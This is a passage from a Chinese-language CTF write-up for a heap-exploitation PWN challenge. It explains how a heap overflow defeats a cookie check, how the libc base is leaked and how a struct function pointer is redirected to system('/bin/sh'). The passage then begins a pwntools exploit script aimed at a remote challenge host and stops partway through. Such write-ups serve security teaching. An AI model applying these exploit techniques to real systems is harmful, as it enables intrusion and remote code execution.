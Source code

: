 <br>

**11.heap    类型：PWN    分值：300分**

程序功能：在main函数中开始有一个函数随机申请和释放堆，造成堆空间不可预测，并生成一个cookie值。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0178410baa36a7ddbf.png)

数据结构为



```
struct heap`{`
    int idx;
    char *name_ptr;
    int name_len;
    int *func;
    char *school_name_ptr;
    int school_name_len;
    int type;
    int cookie;`}`
```

利用思路：在name_ptr和school_name_ptr指向的空间中的结尾会复制有cookie，剩下几个函数中就拼命盯着那个cookie值，几乎所有的操作都校验3次cookie，给了相当于无限申请堆的能力，出题人留了个很漂亮的堆溢出。通过前面申请大量的堆空间，将随机生成的堆块归并后再次布局堆空间，这是，堆空间就得到了相邻的堆块，通过溢出堆块修改相邻堆块中的结构为：



```
name_ptr -&gt; cookie
name_len = 0
school_name_ptr -&gt; cookie
scool_name_len = 0
```

构造完毕后可修改存放于堆上的cookie，顺便写入/bin/sh。利用同样的姿势绕过cookie校验，leak出libc基址，修改结构体中的函数为system。

exp如下：



```
from pwn import *
context.log_level = 'debug'
slocal = 0
if slocal :
    p = process("./heap",env=`{`"LD_PRELOAD":"./libc.so.6"`}`)
else:
    p = remote("106.75.8.58",23238)
def add(nam_len,name,sc_len,sc,yn):
    p.recvuntil("option:")
    p.sendline("1")
    p.recvuntil("length of name")
    p.sendline(str(nam_len))
    p.recvuntil("input name")
    p.sendline(name)
    p.recvuntil("schoolname")
    p.sendline(str(sc_len))
    p.recvuntil("school name")
    p.sendline(sc)
    p.recvuntil("tutor?")
    p.sendline(yn)
def dele(idx):
    p.recvuntil("option:")
    p.sendline("2")
    p.recvuntil("input a id to delete")
    p.sendline(str(idx))
def edit(idx,opt,ll,name):
    p.recvuntil("option:")
```